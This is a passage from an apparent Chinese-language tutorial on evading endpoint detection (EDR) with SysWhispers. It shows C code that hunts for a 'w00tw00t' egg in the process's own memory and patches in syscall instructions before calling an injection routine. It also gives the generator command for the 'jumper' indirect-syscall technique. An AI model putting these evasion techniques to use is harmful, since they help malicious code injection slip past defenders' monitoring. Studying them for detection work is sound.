 ```plain
        if(DEBUG > 0){
            for (int i = 0; i < nBytesRead; i++){
                printf("%02x ", current[i]);
            }
            printf("\n");
        }

        if (memcmp(egg, current, 8) == 0)
        {
            printf("Found at %llu\n", (ULONG64)currentAddress);
            WriteProcessMemory((HANDLE)((int)-1), currentAddress, replace, 8, &nBytesRead);
        }

    }
    printf("Ended search at:   0x%llu\n", (ULONG64)startAddress + currentOffset);
    free(current);
}
```

然后是主函数中：

```plain
int main(int argc, char** argv) {

    unsigned char egg[] = { 0x77, 0x00, 0x00, 0x74, 0x77, 0x00, 0x00, 0x74 }; // w00tw00t
    unsigned char replace[] = { 0x0f, 0x05, 0x90, 0x90, 0xC3, 0x90, 0xCC, 0xCC }; // syscall; nop; nop; ret; nop; int3; int3

    //####SELF_TAMPERING####
    (egg, replace);

    Inject();
    return 0;
}
```

比较简单就不再详细解释了。  
但是这种方法还是属于直接系统调用，EDR 只要检测 RIP 的指向即可检测到异常，就有了接下来要介绍技术。

#### jumper & jumper\_randomized

先来看 jumper，使用命令`python syswhispers.py -f NtCreateThreadEx -m jumper -o jumper`来生成一个采用该技术的 demo  
看 asm 文件，可以看到先将 syscall 的地址放到 r15，再 `jump r15`实现的  